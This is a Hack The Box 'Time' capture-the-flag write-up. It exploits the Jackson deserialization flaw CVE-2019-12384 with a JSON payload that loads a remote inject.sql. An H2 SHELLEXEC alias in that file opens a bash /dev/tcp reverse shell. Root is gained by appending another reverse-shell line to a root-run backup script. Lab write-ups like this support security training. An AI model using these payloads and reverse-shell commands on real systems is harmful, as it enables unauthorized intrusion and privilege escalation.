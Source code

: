 ```yaml
---
layout: page
title: Time
description: Write-up
dropdown: HTB-BOXES
priority: 2
---
```

# Time Walkthrough
![](https://i.ibb.co/pP4vK3F/image.png)



# []()Methodology

* Nmap scan.
* Web enumertation.
* Jackson RCE cve.
* Getting reverse shell.
* Enumerate Time.
* Getting reverse shell.
* RooTed.

## Nmap Scan:

**I just found 22 for ssh and 80 for http web page**


![](https://i.ibb.co/rGkP8zJ/image.png)

### Let's start with the Web Page:

**It's an online JSON beautifier and validator.**

![](https://i.ibb.co/GWKXZz3/image.png)

> * I tried to find SQLi, But while i was fired up my Burp suit i found that interesting error. 

![](https://i.ibb.co/H77fsKh/image.png)

> **I searched google about (unhandled java exception com.fasterxml.jackson.core.jsonparseexception), After 15 minutes of search i realized that is a JSON deserialization, And i found a CVE-2019-12384, It's Famous about Jackson Rce For CVE-2019-12384.**


> **This [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12384) allow attacker to get RCE, By FasterXML jackson-databind 2.x before 2.9.9.1 might allow attackers to have a variety of impacts by leveraging failure to block the logback-core class from polymorphic deserialization. Depending on the classpath content, remote code execution may be possible.**


##### Hackers logic if there is a CVE, Find its Exploit.

* I found this [Exploit](https://github.com/jas502n/CVE-2019-12384), But for some reason it didn't work with me.
* Then i found [This one](https://www.programmersought.com/article/77146841082/), I will use the RCE part with reverse shell.

> **In simple steps:**
1. Add inject.sql file to your machine.
2. Get ready your bash shell execution for the reverse shell ```(CALL SHELLEXEC('bash -i &>/dev/tcp/YOUR_MACHINE_IP/YOUR_NC_LISTNER_PORT 0>&1 &'))```.
3. Fired up your http server for port 8000 to upload inject.sql for our attacking box (Time).
4. Make your listner ready for the reverse shell.
5. Use the POC payload with YOUR_MACHINE_IP on port 8000 in Validate (Beta!).
6. BOOOM, you got reverse shell.

**inject.sql**
```ruby
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/10.10.16.11/1234 0>&1 &')
```
**Firing up our http server..**

![](https://i.ibb.co/synM0x0/image.png)

**Netcat as our listner ```yahia@Y4h1a:~$ nc -nlvp 1234 ```...**

**POC payload..**
```php
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.16.11:8000/inject.sql'"}]
```
**Here** 

![](https://i.ibb.co/nc1pGwZ/image.png)

**Looking to http server we found GET /inject.sql is 200 and that's OK.**

![](https://i.ibb.co/dtjG5BM/image.png)

**Our listner..**

![](https://i.ibb.co/XshCJMZ/image.png)

> * We got reverse shell successfully.

> * Now i'm Pericles user.

![](https://i.ibb.co/XjnTN1D/image.png)

> **I spent a day enumerating this box and i lost alot of Time as its name, But no thing useful So i decided the next day to use LinPEAS, it's a Tool to automate the enumeration process.**


![](https://i.ibb.co/fpZ92df/image.png)


![](https://i.ibb.co/hfJzCL3/image.png)

**I found that intersting file to check ``` /usr/bin/timer_backup.sh ```**

```bash
pericles@time:/usr/bin$ cat timer_backup.sh
cat timer_backup.sh
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```
> **It's create a zip archive from /var/www/html and moving it to /root/backup.zip**

> **So we have two ways to solve this situation, First add our public key to the authorized keys for root in Time Box and connect via ssh, but NO TIME so i choosed the second choice by getting reverse shell via bash shell ```echo "bash -i >& /dev/tcp/YOUR_MACHINE_IP/YOUR_NC_LISTNER_PORT 0>&1" >>/usr/bin/timer_backup.sh```**

```bash
pericles@time:/usr/bin$ echo "bash -i >& /dev/tcp/10.10.16.11/4321 0>&1" >>/usr/bin/timer_backup.sh
<p/10.10.16.11/4321 0>&1" >>/usr/bin/timer_backup.sh
```
> **Till Now it's OK and you will get reverse shell to your listner, But for ONLY 5 seconds i think and that is the idea of TIME box, So you have to be very fast to cat your root flag ```cat /root/root.txt``` as always to find the root flag, So the first solution of adding our public key to the authorized keys for root is the best, Because it's will give us persistence to get access to root for TIME box.**

```bash
yahia@Y4h1a:~$ nc -nlvp 4321
Listening on 0.0.0.0 4321
Connection received on 10.10.10.214 45098
bash: cannot set terminal process group (228025): Inappropriate ioctl for device
bash: no job control in this shell
root@time:/# cat /root/root.txt
cat /root/root.txt
7a6040***********b14a463fcd5
```
# RooTed

<img src="http://www.hackthebox.eu/badge/image/209461" alt="Hack The Box">


![]()
![]()

